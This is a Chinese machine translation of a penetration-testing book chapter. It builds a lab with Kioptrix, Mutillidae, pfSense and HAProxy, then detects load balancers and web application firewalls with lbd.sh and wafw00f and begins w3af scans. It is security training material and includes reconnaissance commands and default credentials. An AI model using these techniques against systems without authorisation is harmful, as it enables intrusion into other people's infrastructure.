# 五、Web 应用利用

在本章中，我们将探讨使用免费提供的工具（如 web 浏览器、w3af、WebScarab 等）测试 web 应用程序的各种方法。我们还将讨论绕过 web 应用程序防火墙和入侵检测系统的方法，以及如何确定目标是负载平衡还是过滤。本章确实需要大量的实验室准备工作。如果您没有跟随这些示例，您可能希望绕过这些部分。

需要注意的是，在安全的环境中，基于 web 的应用程序可能是在您正在测试的网络中获得立足点的最直接方法。它们也是恶意用户最有可能使用的入口点。似乎每天都有更多的违规通知发布，其中大部分都是由于 web 应用程序的安全缺陷或错误配置造成的。考虑到这些应用程序中的许多都可以通过 Internet 访问，web 应用程序是主要目标。互联网仍然提供各种匿名方法，从而限制了潜在攻击者面临的实际风险。毕竟，起诉一个你抓不到的人是很困难的。

### 注

执行此类测试的方法有很多种。我们需要用一整本书来涵盖它们。记住这一点，我们提供了有关在针对安全环境时提供最大好处的技术的指导。

企业在决定安全资金应该花在哪里时通常会使用基于风险的方法，在时间和预算限制下做出的决策有时可能会导致意外错误，对整个环境的安全态势产生深远影响。渗透测试人员必须能够模拟客户端在野外可能面临的攻击类型，并提供有关如何缓解发现的漏洞的准确信息。有时，这些应用程序甚至允许攻击者轻松绕过所有现有的安全控制。不仅业务有丢失关键信息的风险，而且用于保护体系结构其他方面的所有资金都将被完全浪费。

与其他章节一样，我们首先快速回顾所选工具的基础知识，然后继续介绍一些更有趣的技术。

# 熟能生巧

渗透测试需要使用需要时间和实践才能完善的技能。为了鼓励吸收本章中的内容，我们将在实验室中添加一个故意易受攻击的 Linux 发行版的负载平衡实例。我们还将使用我们的 Ubuntu 虚拟机托管 Mutillidae 2.1.7（在[上提供给社区）http://www.irongeek.com)](http://www.irongeek.com))，这是一个基于 web 的应用程序，有故意的安全漏洞，我们将利用这些漏洞。

如果你已经阅读了本书的各个章节，那么你已经熟悉了 Kioptrix 1 级。我们现在继续讨论一个更先进的 Kioptrix 发行版，该发行版由[www.Kioptrix.com](http://www.kioptrix.com)团队的 Steven McElrea（又名 loneferret）和 Richard Dinelle（又名 haken29a）向社区提供。

为了遵循本章中的示例，需要按照以下方式配置虚拟实验室：

*   **回溯 Linux:**已连接内部网络 `VLAN1`
*   **Kioptrix 虚拟机三级：**连接内部网络 `VLAN1`
*   **Kioptrix VM 三级克隆：**连接到内部网络 `VLAN1`
*   安装了 Mutillidae 的**Ubuntu_TestMachine_1**：连接到 `VLAN1`
*   **PFSense 虚拟机：**连接内部网络 `VLAN1`。这将提供我们的负载平衡

我们将介绍 Kioptrix 3 的安装，创建 VM 克隆，在 Ubuntu 上安装 Mutillidae，并为我们当前的需要准备 PfSense。

### 注

只要在 Oracle VM manager 的网络设置中为每台来宾计算机选择内部网络，就可以创建 VLAN1 网络连接。PfSense 将用于为来宾计算机 IP 地址提供 DHCP 服务器。

请查看抽象网络图：



## 安装 Kioptrix 3 级

最有效的学习方法之一是亲身实践。由 loneferret（Steven McElrea）和 haken29a（Richard Dinelle）向社区免费提供的 Kioptrix Level 3 旨在提供一个可用于获得这种体验的基本平台。这个特定的发行版为我们提供了一个包含多个 web 应用程序安全漏洞的平台，我们将利用这些漏洞来探索各种动手利用 web 应用程序的方法。

前往[http://www.kioptrix.com](http://www.kioptrix.com) 网站，选择您选择的语言，然后点击页面右侧的**Kioptrix VM Level 1.2**链接。


您需要将文件解压缩到所选位置。此时，应熟悉该程序。打开 Oracle VirtualBox 并使用以下定义的设置创建新的来宾计算机：

*   名称：Kioptrix 虚拟机 3 级
*   操作系统类型：其他 Linux
*   内存：256
*   启动磁盘：Kioptrix 级别 3.vmdk（正常，3.00 GB）

要使用现有 Kioptrix 机器，您需要选择：**使用现有硬盘**选项，如以下屏幕截图所示：


您需要在 Oracle VirtualBox 的**网络设置**部分将新的 Kioptrix 系统添加到您的虚拟网络中，以确保系统与回溯客户机共享同一受限网络。两者都应设置为使用 `VLAN1`。

### 注

如果在引导 Kioptrix 3 级虚拟机时遇到错误，请编辑**虚拟机**设置，并在**系统-主板**中启用 IO APIC 设置。处理器设置下的 PAE/NX 也可能需要启用。


Kioptrix 3 级可以使用各种方法解决，因为此发行版旨在帮助初学者学习渗透测试概念。我们能够将重点放在利用计算机进行攻击的方法上，而不是浪费时间试图突破旨在误导或迷惑攻击者的安全机制，而这些攻击者可能在实际渗透测试中遇到。

## 创建 Kioptrix VM 3 级克隆

我们将使用虚拟负载平衡器来确保准确模拟最有可能在安全环境中找到的技术类型。为此，我们需要创建另一个 Kioptrix VM 实例。您可以轻松地按照前面概述的步骤完成此任务，也可以利用 Oracle VirtualBox Manager 附带的克隆功能。

要克隆虚拟来宾机，请执行以下步骤：

1.  打开**Oracle VM VirtualBox 管理器**。
2.  如有必要，关闭要克隆的机器的电源。
3.  右键单击 Kioptrix VM Level 3 来宾计算机并选择**克隆**选项。
4.  Check the **Reinitialize the MAC address of all network cards** option.

    

5.  点击**下一步**。
6.  选择**完全克隆**径向按钮。
7.  点击**克隆**完成流程。

通过选择重新初始化所有系统的 MAC 地址，我们可以确保将来避免网络冲突。

**完成完整的实验室设置后，请注意以下事项：**

您需要将目标机器（使用 DHCP）的 IP 信息添加到回溯测试仪 1 实例中。允许目标计算机（Kioptrix）启动并获取 IP 地址。对虚拟网络执行快速扫描，以找到 Kioptrix 实例的分配 IP 地址，并将其添加到回溯中的主机文件中。

## 在 Ubuntu 虚拟机上安装和配置 Mutillidae 2.1.7

Mutillidae 是由 Adrian“Irongeek”Crenshaw 和 Jeremy Druin 创建的脚本集合，这些脚本故意易受 OWASP 前 10 名的攻击。有关发布的详细信息，请访问：[http://www.irongeek.com/i.php?page=mutillidae/mutillidae-故意-vulnerable-php-owasp-top-10](http://www.irongeek.com/i.php?page=mutillidae/mutillidae-deliberately-vulnerable-php-owasp-top-10)。

我们将使用这些脚本来练习一些您应该熟悉的技术，以便应对在安全环境中执行渗透测试的挑战。

### 注

如果您需要实践，您还可以利用 Mutillidae 在发行版的每个级别中包含的提示来获得 web 应用程序测试的信心。

正如我们前面提到的，web 应用程序是一个非常好的目标，并且由于各种各样的原因（包括计划外的软件更新、普遍缺乏良好的编码实践等）常常被发现是不安全的。

1.  首先，我们需要将您的**Ubuntu_TestMachine_1**配置为使用两个网络适配器，一个用于 NAT，另一个用于内部网络 VLAN1。这个过程现在应该已经很熟悉了，所以我们将不再回顾执行此任务所需的步骤。
2.  启动**Ubuntu_TestMachine_1**并验证与互联网的连接。这将是获取所需软件更新的最佳时机。
3.  Head over to: [http://www.irongeek.com/i.php?page=mutillidae/mutillidae-deliberately-vulnerable-php-owasp-top-10](http://www.irongeek.com/i.php?page=mutillidae/mutillidae-deliberately-vulnerable-php-owasp-top-10) and download a copy of Mutillidae 2.1.7 from Adrian Crenshaw's (Irongeek) website. The Mutillidae developers have worked hard to provide the community with an effective distribution to test our skills against the OWASP top 10.

    ### 提示

    [www.irongeek.com](http://www.irongeek.com)网站充满了精彩的信息；我强烈建议您花时间查看 IronGeek 收集或创建的一些渗透测试信息，并将其提供给社区！

4.  打开控制台窗口，将目录更改为 `Downloads/`。

    ```
    # cd Downloads/ 

    ```

5.  解压 `mutillidae-2.1.7.zip`文件：

    ```
    # unzip mutillidae-2.1.7.zip 

    ```

6.  将 `mutillidae`文件夹复制到 `/var/www`目录：

    ```
    # sudo cp -r mutillidae /var/www/ 

    ```

7.  Now we need to configure the database connection so that mutillidae functions properly. We need to change the `config.inc` file to reflect that we have a MySQL password for root. Replace `1EasyPassword` with your MySQL root password.

    ### 注

    您还记得您在[第三章](03.html "Chapter 3. Enumeration: Choosing Your Targets Wisely")、*枚举中使用的 MySQL root 密码吗：明智地选择目标？*如果不是，那么你可能会发现，在现实世界中，管理员重复使用这么多密码的原因！在有许多计算机的大型环境中，正确的密码管理至关重要。有一些可用的工具可用于提供一次性使用密码以及改进身份验证方法的其他机制。

    ```
    # sudo nano /var/www/mutillidae/config.inc
    $dbpass = '1EasyPassword';

    ```

8.  使用*CTRL+O*和*输入*，然后使用*CTRL+X*保存文件并返回命令行。
9.  在 Ubuntu 中打开 Firefox 浏览器，浏览到 `http://localhost/mutillidae`。
10.  Click on the **Setup/Reset the DB** link in the top navigation bar.

    

就这样！现在我们需要重新启动机器并**禁用 NAT 连接**，以便无法通过互联网访问。互联网上的恶意用户不应使用这些页面。

## 安装和配置 pfSense

pfSense 是基于 FreeBSD 的虚拟防火墙和路由器的免费实现。非常可配置，它是各种应用的理想选择，包括建立虚拟实验室来实践渗透测试。pfSense 提供的不仅仅是简单的防火墙。因为它易于安装和配置，这对于我们的目的来说非常理想；毕竟，现在我们正试图让事情变得简单，这样我们就可以专注于渗透测试的重要方面，而不是对复杂虚拟路由器和交换机的正确配置进行冗长的讨论。

## 为 pfSense 准备虚拟机

1.  pfSense 必须作为虚拟来宾机下载和安装。请在进入下一步之前下载分发版。pfSense 下载镜像的链接位于：[http://www.pfsense.org/mirror.php?section=downloads](http://www.pfsense.org/mirror.php?section=downloads) 。
2.  选择物理位置附近的镜像以提高下载速度。
3.  将适当的发行版下载到您选择的位置。我们将使用 `pfSense-2.0-RELEASE-i386.iso.gz`作为本章中的示例。
4.  验证下载的 MD5，然后将其解压缩到所选位置。
5.  打开**Oracle VM VirtualBox Manager**并选择**新建**图标，点击**下一步**。
6.  Type pfSense VLAN1 and use the drop-down menus to select **BSD** as the **Operating System** and **FreeBSD** as the **Version**, and then click on **Next**.

    

7.  如果您有可用的系统资源，请选择 256 MB 的 RAM。最低要求建议您至少使用 128 MB。准备继续时，单击**下一步**。
8.  为了安装 pfSense，我们需要创建一个新硬盘。我们将使用 6GB 进行安装。此设置可以低至 2 GB，并且仍然有效，但您在扩展 pfSense 提供的功能方面会受到限制。选择**新建硬盘**选项后，点击**下一步**。
9.  选择**VDI（虚拟磁盘映像）**点击**下一步**。
10.  为虚拟磁盘文件选择**动态分配**，点击**下一步**。
11.  如果计算机上的磁盘空间不紧，请选择至少**6 GB**。这将以 2GB 的块动态分配，但是现在设置一个更大的大小比以后更改要容易得多。点击**下一步**。
12.  Ensure that your settings are similar to the following and click on the **Create** button to finalize the creation of the pfSense virtual machine.

    

13.  右键点击 pfSense VLAN1 实例，选择**设置**。我们需要为此虚拟机启用两个网络设备。将网络适配器 1 分配给内部网络**WLAN1**，将网络适配器 2 分配给**VLAN1**。如果以前没有使用过内部网络名称，则可能必须手动键入该名称。从两个接口（在**高级**菜单下）的下拉菜单中选择**PCNet PCI II**适配器，以避免与 FreeBSD 和 VirtualBox 相关的网络问题。
14.  在点击**确定**并关闭窗口之前，从**混杂模式**下拉菜单中选择**允许虚拟机**。
15.  在 Oracle VM VirtualBox 管理器中选择**PFSense VLAN1**并单击**开始**图标。
16.  在弹出的**首次运行向导**屏幕上点击**下一步**。
17.  点击屏幕右侧的图标，浏览到您下载并提取 `PFSense.iso`的地方，选择它，点击**打开**。
18.  点击**下一步**。

## pfSense 虚拟机持久化

如果我们不想在每次加载 pfSense 虚拟机时手动重新配置它，我们需要在专用虚拟硬盘上执行完整安装。以下步骤将引导您完成必要的流程：

1.  单击**启动**将开始 pfSense 虚拟机的启动顺序。
2.  按*1*继续启动。
3.  Press *I* to proceed with installation. Use the following settings in sequence where appropriate when prompted:
    *   接受这些设置
    *   快速/轻松安装
    *   好啊
    *   对称多处理内核（多个处理器）
    *   重新启动

    ### 注

    为避免安装介质在下次重新启动时启动，可能需要通过选择菜单中的**设备【CD/DVD 设备】**并取消选中 `pfsense.iso`来“弹出”安装介质。

4.  一旦系统重新启动，系统将询问您是否要立即设置 VLAN。键入*y*并按*进入*继续。
5.  在**输入新 VLAN**提示类型 `le0`的父接口名称，然后按*输入*。
6.  在**处键入*1*输入 VLAN 标签**。
7.  在**输入新 VLAN**提示类型 `le1`的父接口名称，然后按*输入*。
8.  在**处键入*2*输入 VLAN 标签**。
9.  按*键进入*。
10.  在**进入 WAN 界面**提示时，输入**WLAN1**界面。您可以查看 VirtualBox 中的设置，找出哪个网络适配器 MAC 地址是 WLAN 适配器。例如，我们将使用： `le0`并按*输入*。
11.  按*输入*并为 LAN 选择合适的适配器（在我的例子中选择 VLAN1 适配器 `le1`。
12.  To continue press *Enter* and then *y*, when prompted to continue.

    

    祝贺您，您的实验室设置几乎完成了！在开始本章更有趣的部分之前，需要配置一些附加设置。此时，您应该看到类似于以下内容的屏幕：

    

## 配置 pfSense DHCP 服务器

在开始之前，我们需要设置内置 DHCP 服务器，以便我们的其他机器可以在 VLAN1 接口上获取地址，而无需手动配置。使用 pfSense 管理 DHCP 连接比简单使用 VirtualBox 提供的内置功能提供了更多的控制。

1.  从 pfSense 控制台选择**2）设置接口 IP 地址**。
2.  在**输入您想要配置的接口编号：**提示，我们需要输入*2*选择 LAN 接口，然后按*输入*。
3.  提示时键入以下 IP 地址： `192.168.75.1`并按*键输入*。
4.  在**输入新的 LAN IPv4 子网比特数**提示输入 `24`并按*输入*。
5.  Type *y* at the prompt when asked if you would like to enable the DHCP server on LAN. Press *Enter* to continue.

    

6.  当要求提供起始地址范围类型： `192.168.75.10`并按*输入*时。
7.  You will be asked to select the ending DHCP range. Type `192.168.75.50` and press *Enter*.

    

## 启动虚拟实验室

每次加载测试网络时，应按以下顺序引导系统：

1.  pfSense VLAN1
2.  回溯
3.  Kioptrix 虚拟机 3 级
4.  Kioptrix 虚拟机 3 级克隆
5.  Ubuntu_TestMachine_1

    ### 提示

    请记住，在 BackTrack 或 Ubuntu 中，您可以随时使用 `dhclient`命令行命令来释放和更新 IP 地址。之后使用 `ifconfig`检查地址，确保 DHCP 服务器工作正常。

    如果您遇到从错误的 DHCP 服务器拾取 IP 的机器出现问题，您还需要关闭我们在前几章中启用的 VirtualBox DHCP 服务器。有关 VirtualBox 更高级功能的详细说明，请访问互联网：[http://www.virtualbox.org/manual/ch08.html](http://www.virtualbox.org/manual/ch08.html) 。

## pfSense DHCP-永久预订

我们现在可以登录虚拟 pfSense 防火墙的 web 控制台，为两台 Kioptrix 机器设置静态 IP。

打开预装在 BackTrack 中的 Firefox web 浏览器，转到 `http://192.168.75.1`，这是 pfSense 虚拟机的 web 控制台界面。如果所有配置都正确，系统将要求您输入用户名和密码。

*   **用户名：**`admin`
*   **Password:**`pfsense`

    ### 注

    如果在设置计算机时遵循标准最佳实践，则可能已经更改了 pfSense 实例的默认密码。如果是这样的话，那就用它来代替默认的和积极主动的荣誉吧！

pfSense 仪表板提供大量数据。目前，我们只关注于设置负载平衡。按照以下步骤允许 pfSense 对两台 Kioptrix 来宾计算机的 web 应用程序进行负载平衡。

1.  首先，我们需要知道哪些 MAC 地址属于每台 Kioptrix 机器，以便我们可以设置静态租约。这可以通过检查每个框的 VirtualBox Manager 设置并查看**网络设置**来实现。
2.  在 pfSense web 控制台中，单击**状态【DHCP 租约】**查看当前租约列表。将 IP 与每台 Kioptrix 机器的 MAC 地址匹配。
3.  Set up static IP address assignments for both machines by using the button to the right of the entry to open the static assignment window.

    

4.  In the **Services: DHCP: Edit static mapping** window you will need to type in an IP address that is outside of the DHCP range. This will ensure that each time the machine connects it receives the same IP address. Type `192.168.75.102` in the IP address field.

    

5.  在**主机名**中输入**Kioptrix2**。
6.  Type a description of your choice. This will be stored in the DHCP settings so that they can be reviewed in the future.

    ### 注

    作为渗透测试人员，值得注意的是，有时管理员会在他们的 DHCP 列表中输入非常好的注释。如果您碰巧接管了一个充当 DHCP 服务器的系统，那么就可以很容易地在网络上找到有价值的机器。

7.  点击**保存**完成任务。
8.  Apply the settings. Scroll down to view the static DHCP addresses. This list includes information about all of your assigned IP addresses.

    

## 安装 HAProxy 进行负载平衡

为了练习检测负载平衡器，我们需要在虚拟实验室中设置一个。我们可以使用现有的 Ubuntu 机器来完成这项任务。

### 注

如果在运行 HAProxy 时遇到困难，请确保您已从前面的章节中关闭 Apache 安装。如果端口已被 Apache 或其他任何东西绑定，则无法在同一端口上设置负载平衡。

1.  在 Ubuntu 虚拟机上启用 NAT 设置并启动它。
2.  在虚拟机上启用**网络适配器 2**。确保它正在使用 VLAN1。为您的 Ubuntu 计算机设置静态 DHCP 租约。使用 `192.168.75.200`作为 IP 地址。使用控制台中的 `dhclient`刷新您的 IP 地址信息。确认您现在正在其中一个适配器上使用 `192.168.75.200`。
3.  点击左上方导航栏中的**应用程序【Ubuntu 软件中心】**。
4.  在**Ubuntu 软件中心**屏幕左上角的搜索字段中键入 `HAProxy`。
5.  Choose the **Install** button and enter your password at the prompt.

    ### 注

    如果您在不受信任的软件包方面遇到错误，您可以运行 `apt-get update`和 `apt-get upgrade`继续安装。

6.  我们需要编辑配置文件，为我们的两台 Kioptrix 机器设置负载平衡器。打开终端会话并编辑 `/etc/haproxy/haproxy.cfg`文件。请记住使用 `sudo`升级写入访问权限。之后从该目录中删除所有其他 `.cfg`文件。

    ```
    # sudo nano /etc/haproxy/haproxy.cfg 

    ```

    *   Your file should match the following before saving and exiting:

        

7.  我们的 Ubuntu 机器已经有一个 web 服务器在运行，所以我们必须禁用它才能使本练习正常工作：

    ```
    # sudo /etc/init.d/apache2 stop 

    ```

8.  是时候启动负载平衡器了：

    ```
    # sudo haproxy -f /etc/haproxy/haproxy.conf 

    ```

如果所有配置都正确，您会发现现在可以使用 IP 地址 `192.168.75.200`浏览到 Kioptrix 机器。

## 将 Kioptrix3.com 添加到主机文件

让我们将 `Kioptrix3.com`添加到回溯的主机文件中，并尝试检测正在访问的机器。在回溯终端中，将目录更改为 `/etc`，在您选择的编辑器中打开 `hosts`文件，并将以下内容添加到文件中：

```
kioptrix3.com

```

通过 ping `kioptrix3.com:`验证连接

```
# ping kioptrix3.com 

```

```
PING kioptrix3.com (192.168.75.200) 56(84) bytes of data.
64 bytes from kioptrix3.com (192.168.75.200): icmp_seq=1 ttl=64 time=3.76 ms

```

# 检测负载平衡器

执行渗透测试时，一台服务器上的漏洞可能在另一台服务器上不可用。适当的负载平衡几乎是完全透明的，如果您在作为池一部分的服务器上发现任何服务器问题，则很容易导致测试结果的错误通信。

### 提示

在这些练习中，我们主要关注 HTTP 负载平衡。检测 DNS 负载平衡可以通过使用上一章中描述的枚举工具来完成。例如，您可以使用 dig 查看是否为同一域名返回多个服务器。

## 快速现实检查-负载平衡检测器

BackTrack 5 包括一个名为 Load Balance Detector（lbd.sh）的脚本，该脚本将快速测试负载平衡。在我们当前的平衡 `Kioptrix3.com`服务器上运行此工具将为您提供输入，表明服务器没有负载平衡，因为该工具从未有机会看到其他服务器。

但是，如果您在 Ubuntu 机器上编辑 HAProxy 配置以使用循环平衡类型（balance `roundrobin)`并重新启动，则以下命令将找到您的平衡器：

```
# cd /pentest/enumeration/web/lbd
# ./lbd.sh kioptrix3.com

```

```
lbd - load balancing detector 0.2 - Checks if a given domain uses load-balancing.
Written by Stefan Behte (http://ge.mine.nu)
Proof-of-concept! Might give false positives.
Checking for DNS-Loadbalancing: NOT FOUND
Checking for HTTP-Loadbalancing [Server]:
Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
NOT FOUND
Checking for HTTP-Loadbalancing [Date]: 02:02:54, 01:44:10, FOUND
Checking for HTTP-Loadbalancing [Diff]: NOT FOUND
kioptrix3.com does Load-balancing. Found via Methods: HTTP[Date] 

```

### 注

熟悉可以实现的各种类型的负载平衡，以便更容易准确地检测网络的真实外观。

### 那么，我们到底在寻找什么？

一个站点可以由许多不同的服务器托管，这些服务器具有不同程度的安全性。有时，只需要这些服务器中的一个就可以完成工作，渗透测试人员需要确保没有忽略任何东西。

如前一示例中所强调的，并不总是能够确定场地是否平衡。 `lbd.sh`向我们提供了一个有趣的事实：它能够通过审查 `HTTP[Date]`方法来确定场地是否处于平衡状态。访问的服务器之间的细微变化是做出准确判断的关键。

### 注

只需在两个负载平衡的系统之间进行简单的扫描，就会发现所有系统都需要被枚举和测试，而不仅仅是少数几个系统。

对平衡池中的服务器运行 nmap 扫描时，我们会看到以下结果：

```
# nmap -A -T5 192.168.75.101 

```

```
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
MAC Address: 08:00:27:56:C4:B2 (Cadmus Computer Systems) 

```

这一信息是意料之中的。但是它与另一台 Kioptrix 机器相比如何呢？

```
# nmap -A -T5 192.168.75.102 

```

```
Nmap scan report for 192.168.75.102
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
MAC Address: 08:00:27:82:09:5A (Cadmus Computer Systems) 

```

我们看到，许多发现与预期相同，但这里有一个细微的差异需要寻找： `192.168.75.102`的 MAC 地址与 `192.168.75.101`的 MAC 地址不同。如果这些系统不是彼此完全相同的克隆体，那么也有可能存在其他差异。这些是我们需要找出的细微差别。

我们的 web 应用程序由 Kioptrix 机器托管，但由我们的 Ubuntu 机器进行平衡。这通常是一个虚拟 IP 地址，用于严格提供对托管应用程序的两台生产机器的访问，可能位于分层 DMZ 中。当然，如果应用程序利用人员或管理员在其中一台服务器或应用程序上留下漏洞，我们很快就能绕过任何此类安全措施，直接进入关键基础设施和数据所在的位置。

### 提示

HTTP 响应头还可以提供突出显示负载平衡器的信息。使用允许您查看这些标题的工具，您可以确定是否存在这些类型的差异，这些差异表明有多台机器为同一网页服务。

# 检测 Web 应用程序防火墙（WAF）

我们需要了解是否还有一个我们应该注意的内联 web 应用程序防火墙。BackTrack 通过提供 WAFW00F 来满足这一需求，WAFW00F 是一种尝试检测最常用的 web 应用程序防火墙的工具。该脚本由 Sandro Gauci 和 Wendel G.Henrique 创建，可从[的项目网站下载部分下载 http://code.google.com/p/waffit/](http://code.google.com/p/waffit/) 。

使用以下命令从回溯终端调用命令：

```
# cd /pentest/web/waffit/
# ./wafw00f.py

```

```
^ ^
_ __ _ ____ _ __ _ _ ____
///7/ /.' \ / __////7/ /,' \ ,' \ / __/
| V V // o // _/ | V V // 0 // 0 // _/
|_n_,'/_n_//_/ |_n_,' \_,' \_,'/_/
<
...'
WAFW00F - Web Application Firewall Detection Tool
By Sandro Gauci && Wendel G. Henrique
Usage: wafw00f.py url1 [url2 [url3 ... ]]
example: wafw00f.py http://www.victim.org/
wafw00f.py: error: we need a target site

```

与辛勤工作的利用人员提供的大多数工具一样，在没有任何输入变量的情况下运行 `wafw00f.py`时，有一个语法示例。我们将遵循提供的用法示例语法：

```
# ./wafw00f.py http://kioptrix3.com 

```

```
^ ^
_ __ _ ____ _ __ _ _ ____
///7/ /.' \ / __////7/ /,' \ ,' \ / __/
| V V // o // _/ | V V // 0 // 0 // _/
|_n_,'/_n_//_/ |_n_,' \_,' \_,'/_/
<
...'
WAFW00F - Web Application Firewall Detection Tool
By Sandro Gauci && Wendel G. Henrique
Checking http://kioptrix3.com
Generic Detection results:
No WAF detected by the generic detection 
Number of requests: 10

```

突出显示的响应表明未找到 WAF。这将使我们更容易穿透 Kioptrix 机器。现在，如果真的有一个 web 应用程序防火墙，我们应该期待什么呢？下面是针对这种配置的结果：

```
^ ^
_ __ _ ____ _ __ _ _ ____
///7/ /.' \ / __////7/ /,' \ ,' \ / __/
| V V // o // _/ | V V // 0 // 0 // _/
|_n_,'/_n_//_/ |_n_,' \_,' \_,'/_/
<
...'
WAFW00F - Web Application Firewall Detection Tool
By Sandro Gauci && Wendel G. Henrique
Checking http://192.168.75.15/mod_security/w3af/
The site http://192.168.75.15/mod_security/w3af/ is behind a ModSecurity
Generic Detection results:
The site http://192.168.75.15/mod_security/w3af/ seems to be behind a WAF
Reason: The server returned a different response code when a string trigged the blacklist. 
Normal response code is "404", while the response code to an attack is "302"
Number of requests: 10

```

正如您所看到的，这些信息清楚地定义了站点正在受到保护的事实，以及在本例中它正在使用 ModSecurity（实际上是这样的）。在执行测试时，我们将牢记这一事实，并尝试使用已知的技术对使用此特定软件的站点进行测试。这些策略会随着时间的推移而改变，因此，在生产网络上尝试利用漏洞之前，您应该尝试模拟正在测试的环境。

# 挑战三级-Kioptrix

我们想在本章中介绍的许多技术可以通过接受 Kioptrix 为我们提供的挑战来探索。让我们来看看在 KiopTrx 机器上获取根的必要步骤。

### 提示

打开回溯，在 `Kioptrix3.com`查看 web 应用程序。浏览并查看页面的来源。还有一些有趣的笔记和复活节彩蛋在我们开始之前就留给了我们。玩得开心！

通常，我们将首先扫描承载 web 应用程序的服务器。此基础架构测试为我们提供了很多信息，在尝试执行某些 web 应用程序漏洞时，这些信息非常有用。在这种情况下，通过使用负载平衡检测器，我们知道正在进行一些负载平衡。我们还知道，这些服务器彼此非常相似，没有留下任何关于它们的真实 IP 的线索。我们的下一步是检查是否有任何值得注意的 web 应用程序防火墙需要注意。如果有，我们可能需要使用某些规避技术来绕过这些限制。

在现实世界中，由于防火墙限制和网络分割实践，这些系统甚至很可能无法直接访问。我们的目标是能够接管其中一台服务器，然后从该服务器转到另一台服务器，并将其取出。毕竟，如果系统完全相同，那么我们所要做的就是获取其中一个系统的凭据，然后我们可以使用所述凭据接管所有副本。

# Web 应用程序攻击和审计框架（w3af）

这个令人难以置信的框架自动化了许多以前手动完成的任务。完全可扩展的开源 w3af 使用大量插件提供完全可定制的测试体验。该工具的作者创建它是为了对那些新的 at 测试人员以及那些专业的渗透测试人员非常友好。如果你需要的插件还不可用，那么只需自己创建它，就可以在将来的所有测试中节省大量时间。w3af 不断更新和改进。w3af 包含的插件类型包括发现、暴力强制、审计，甚至规避。该框架还包括自动更新功能，以确保您始终安装了最新和最好的软件，并随时可以运行。有关此工具的更多信息，请访问[w3af.sourceforge.net](http://w3af.sourceforge.net)。

正如预期的那样，回溯利用团队已经预装了 w3af。打开回溯虚拟机并选择：**应用程序|回溯|漏洞评估| Web 应用程序评估| Web 漏洞扫描程序| w3af gui**启动图形用户界面。如果您的回溯系统已连接到 Internet，您将能够在提示时将插件更新为最新版本。

### 注

不要选择从回溯中更新 w3af。在回溯 5 上更新 w3af 时，r1 w3af 不再工作。可以采取几个步骤来安装和配置新的依赖项，但这超出了本示例的范围。


通常，您会希望执行非常有选择性的攻击，特别是当您试图测试客户端管理员和安全团队的检测能力时。

### 注

在继续之前，请记住停止 Apache 并在 Ubuntu 机器上启动 HAproxy。

在本例中，我们将简单地从执行**web_ 基础设施**扫描开始，看看我们可以在 `Kioptrix3.com (192.168.75.200)`上找到什么信息。



w3af 似乎能够检测到此站点正在进行负载平衡。仔细检查后，您会发现反向代理可用于防止利用已知问题。确保实际测试漏洞利用（如果您的参与规则中包含），尤其是当您看到可能存在 web 应用程序防火墙或其他缓解控制时。企业将希望得到保证，他们在这些设备或服务器上的支出已经得到了回报，或者他们没有按预期工作。

## 使用 w3af GUI 节省时间

现在，我们将运行快速扫描，以确定可以找到什么。这将需要一段时间，因此一定要分配必要的时间让测试完成。

### 注

建议先进行较小的扫描，为您提供可立即使用的信息，然后再进行更彻底的扫描，这可能需要数小时甚至数天。渗透测试通常（不幸地）受到预定时间范围的限制。

在测试过程中，您可以查看在**日志**选项卡下更新的日志。有时，在扫描过程中查看日志可能更有效，以便在收到结果后立即采取行动。

让我们回顾一下一些发现：



扫描发现了路径泄漏、应用程序错误以及服务器允许目录索引的实例。此信息有助于确定下一步。

## 使用 w3af 控制台进行扫描

我们中的许多人喜欢呆在控制台部分，而不是使用 GUI。记住这一点，我们将运行另一次扫描，看看是否发现了比简单的目录索引和补丁配置错误更有趣的东西。这次我们将使用控制台而不是 GUI。

### 注

不要选择从回溯中更新 w3af。在回溯 5 上更新 w3af 时，r1 w3af 不再工作。可以采取几个步骤来安装和配置新的依赖项，但这超出了本示例的范围。

```
# cd /pentest/web/w3af
# ./w3af_console

```



您可以从 w3af 命令控制台中执行 w3af 中可用的所有关键功能。“帮助”命令详细说明了可用的选项。让我们开始扫描。

我们将首先设置目标主机：

```
w3af>>> target
w3af/config:target>>> set target http://kioptrix3.com

```

在目标菜单中，我们可以将目标设置为 `http://kioptrix3.com:`

```
w3af/config:target>>> view 

```

视图将允许我们验证配置。如果查看屏幕截图，可以确定目标设置不正确。再次使用具有适当设置的 set target 将纠正您发现的任何问题。

```
w3af/config:target>>> back 

```

“后退”命令将返回到最后一个屏幕。键入 exit 将从 w3af 控制台退出，我们不希望这样做。


```
w3af>>> plugins 

```

我们可以通过在控制台中键入插件来查看已安装的插件。这在确定要运行哪些特定项目时非常有用。您还可以从这个菜单中获得关于每个插件的信息。

```
w3af/plugins>>> help 

```

如果需要更多信息，或者只需要刷新内存中所有内容的位置，请在控制台中的任意位置使用 help 命令。

```
w3af/plugins>>> back
w3af>>> profiles

```

“配置文件”部分是理解扫描内容的关键。就像 GUI 一样，配置文件决定了在开始扫描时将运行哪些插件。

```
w3af/profiles>>> help 

```

